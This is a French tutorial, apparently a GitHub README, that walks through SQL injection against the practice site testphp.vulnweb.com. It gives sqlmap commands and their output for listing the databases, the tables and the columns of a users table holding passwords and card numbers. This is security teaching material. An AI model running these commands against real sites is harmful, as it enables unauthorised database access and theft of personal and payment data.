

# Sand box et SQLMAP

On va ici tenter de pénétrer un [site web ](http://testphp.vulnweb.com/)\(prévu à cet effet\) pour tester des attaques par injections SQL. Notamment avec l'utilisation du logiciel SQLMAP.

## Présentation du site



C'est un site qui regroupe des artistes par catégorie, avec des descriptions par artistes etc. et il est sensible aux injections SQL.

On peut vérifier cette sensibilité en ajoutant un guillemet simple à la fin de l'url, car il retourne une erreur sql.


## Par injections SQL à la main


## À l'aide de SQLMAP

#### 1. On commence par taper la commande suivante pour lister toutes les databases utilisées à cette url :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs 
```

Vous devriez avoir à la fin du processus, quelque chose comme ça :

```bash
[21:23:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12

[21:23:03] [INFO] fetching database names
available databases [2]:

[*] acuart
[*] information_schema
```

On remarque ainsi la présence de 2 databases pour cette url.

#### 2. À partir de la, on peut récupérer le nom des tables des databases que l'on souhaite, par exemple ici la database acuart, avec la commande :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --tables -D acuart
```

Vous obtiendrai à la fin de ce processus, le nom des tables de la database acuart :

```text
[21:28:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12

[21:28:51] [INFO] fetching tables for database: 'acuart'
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+
```

#### 3. Notre but étant de pouvoir obtenir les informations des utilisateurs, on va s'intéresser à la table users, et afficher ses attributs :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --columns -D acuart -T users
```

Vous obtiendrai finalement le descriptif des attributs de la tables users, de la database acuart :

```text
[21:34:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12

[21:34:10] [INFO] fetching columns for table 'users' in database 'acuart'
Database: acuart
Table: users
[8 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| name    | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+
```


